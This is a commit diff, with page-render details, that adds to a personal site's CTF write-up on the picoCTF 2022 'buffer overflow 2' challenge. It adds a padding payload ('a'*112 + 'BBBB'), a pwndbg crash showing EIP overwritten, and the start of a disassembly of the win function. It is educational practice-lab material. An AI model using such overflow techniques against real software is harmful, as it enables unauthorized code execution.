

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 900 px high, scrolled down 5647 px. Shown: the top 889 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 6052 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -246,3 +246,26 @@ picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
 # buffer overflow 2 - picoCTF 2022
 
 <https://play.picoctf.org/practice/challenge/259>
+
+```python
+>>> 'a'*112 + 'BBBB'
+'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBB'
+```
+
+```
+pwndbg> run
+...
+Please enter your string:
+aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBB
+aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBB
+
+Program received signal SIGSEGV, Segmentation fault.
+...
+*EIP  0x42424242 ('BBBB')
+```
+
+```
+pwndbg> disassemble win
+Dump of assembler code for function win:
+   0x08049296 <+0>:     endbr32
+```
````
